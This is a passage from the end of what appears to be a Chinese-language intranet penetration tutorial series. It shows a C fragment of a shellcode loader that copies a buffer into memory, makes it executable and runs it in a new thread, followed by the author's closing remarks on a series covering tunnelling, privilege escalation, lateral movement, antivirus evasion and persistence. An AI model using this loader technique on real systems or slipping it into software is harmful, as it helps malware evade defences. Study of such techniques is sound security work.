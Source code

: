 ```
        );
        CopyMemory(shellcode, buf, code_size);
        VirtualProtect(shellcode, code_size, PAGE_EXECUTE, &amp;dwProtect);

        hThread = CreateThread(
            NULL,
            NULL,
            (LPTHREAD_START_ROUTINE)shellcode,
            NULL,
            NULL,
            &amp;dwThreadId
        );

        WaitForSingleObject(hThread, INFINITE);
    `}`
`}`
```



## 0x03 系列结语

本系列从内网搭建隧道收集信息开始，到提权，横向，到最后免杀和持久化，希望各读者能够有所收获。有问题的话也欢迎交流。

这个内网安全入门系列到此就告一段落了，第一次码技术类文章，学习了很多，随着时间的推移，安全圈的许多事情也不断在变化，不好说别人怎么样，只好做自己。最后感谢安全客和所有的读者。
